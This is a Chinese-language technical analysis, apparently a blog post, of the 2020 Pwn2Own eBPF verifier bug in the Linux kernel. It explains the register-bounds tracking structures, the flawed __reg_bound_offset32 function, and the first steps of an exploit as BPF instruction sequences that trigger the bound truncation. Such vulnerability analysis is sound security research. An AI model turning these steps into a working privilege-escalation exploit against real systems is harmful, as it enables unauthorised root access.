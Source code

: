 这个漏洞由 Manfred Paul 于 2020 年在 Pwn2Own 上提出，利用 eBPF 的漏洞是下了 Linux 系统的提权。漏洞的原理是在 verifier 进行寄存器检查时带有漏洞，可以使得通过某些指令序列来绕过寄存器值检查。

我们知道 verifier 会进行程序安全性的检查，其中就包括了访存的合法性检查，为了检查访问的地址，则需要检查寄存器的值，记录其可能出现的值的范围。在代码中，verifier 通过 `bpf_reg_state` 结构体来记录寄存器状态，其中包括 {s,u}{min,max}_value 来记录有无符号下的最大最小值，并用一个 `tnum` 结构体来保存可能值：

```c 
struct bpf_reg_state {
    ...
    struct tnum var_off;
    s64 smin_value;
    s64 smax_value;
    u64 umin_value;
    u64 umax_value;
    ...
}

struct tnum {
    u64 value; // 某一 bit 为 1，则表示这个 bit 确定为 1
    u64 mask;  // 某一 bit 为 1，则表示这个 bit 的值不确定
}
```

漏洞出现的函数为：

```c 
static void __reg_bound_offset32(struct bpf_reg_state *reg){
    u64 mask = 0xffffFFFF;
    struct tnum range = tnum_range(reg->umin_value & mask,
                       reg->umax_value & mask);
    struct tnum lo32 = tnum_cast(reg->var_off, 4);
    struct tnum hi32 = tnum_lshift(tnum_rshift(reg->var_off, 32), 32);

    reg->var_off = tnum_or(hi32, tnum_intersect(lo32, range));
}
```

这个函数会在进行寄存器 32 位操作后更新寄存器状态使用。这里新建了一个 tnum range，然后根据无符号的范围更新了 var_off。但这里创建 range 的时候直接取了 64 位值的低 32 位，这样如果无符号的范围是 0x1 - 0x1_0000_0001，则截断后为 0x1 - 0x1，这样 var_off 中就会确定这个寄存器的值一定为 1。

比如如下利用流程：

```c 
BPF_LDX_MEM(BPF_DW, REG_6, REG_9, 0) // r6 = mem[r9+0]
```

之后 r6 因为是从内存中读取出来的值，所以 verifier 不确定，`tnum.value` 也就为 0。接下来我们可以通过操作来使得 r6 的 umin_value 为 1：

```c 
BPF_JMP_IMM(BPF_JGE, REG_6, 1, 1) // if r6 >= 1 goto +1
BPF_EXIT_INSN()                   // exit
```

这样如果没有 exit，则 r6 一定大于等于 1，所以 umin_value 就变为了 1。同理通过 JMP 配合 BPF_JLE，我们可以为 r6 设置 umax_value 为 0x1_0000_0001。然后就可以通过 JMP32 来触发漏洞：

```c 
BPF_JMP32_IMM(BPF_JNE, REG_6, 5, 1) // if r6 != 5 goto +1
BPF_EXIT_INSN()                     // exit
```
